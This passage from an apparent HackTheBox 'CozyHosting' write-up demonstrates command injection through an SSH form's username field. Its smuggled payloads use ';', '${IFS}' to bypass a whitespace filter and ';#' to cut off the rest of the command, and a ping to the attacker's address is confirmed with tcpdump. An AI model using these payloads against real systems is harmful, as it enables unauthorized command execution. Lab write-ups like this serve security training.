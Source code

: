 ```
Hostname : 127.0.0.1
Username : bokchee;whoami

>>>

The host was not added!
ssh: Could not resolve hostname bokchee: Temporary failure in name resolution/bin/bash: line 1: whoami@127.0.0.1: command not found
```

It seems that the command line will be `ssh -i [key] bokchee; whoami@127.0.0.1`
Which separates `whoami@127.0.0.1` as a single command.

```
Hostname : 127.0.0.1
Username : bokchee;whoami[space]

>>>

The host was not added!
Username can't contain whitespaces!
```

It doesn't allow whitespace.
Instead, I can try `${IFS}`.
Also, I can add `;#` to separate with `@127.0.0.1` which follows the `username` part.

```
Hostname : 127.0.0.1
Username : bokchee;ls${IFS}-al;#

>>>

The host was not added!
ssh: Could not resolve hostname bokchee: Temporary failure in name resolution/bin/bash: line 1: whoami
```

Let's try `ping` command this time.
I can combine `${IFS}` and `;#` to make a command injection.

```
Hostname : 127.0.0.1
Username : bokchee;ping${IFS}-c${IFS}2${IFS}10.10.14.2;#

>>>

The host was not added!
ssh: Could not resolve hostname bokchee: Temporary failure in name resolution
```

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting]
└─$ sudo tcpdump -i tun0 icmp and dst host 10.10.14.2
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
18:50:47.951423 IP cozyhosting.htb > 10.10.14.2: ICMP echo request, id 4, seq 1, length 64
18:50:48.953004 IP cozyhosting.htb > 10.10.14.2: ICMP echo request, id 4, seq 2, length 64
```
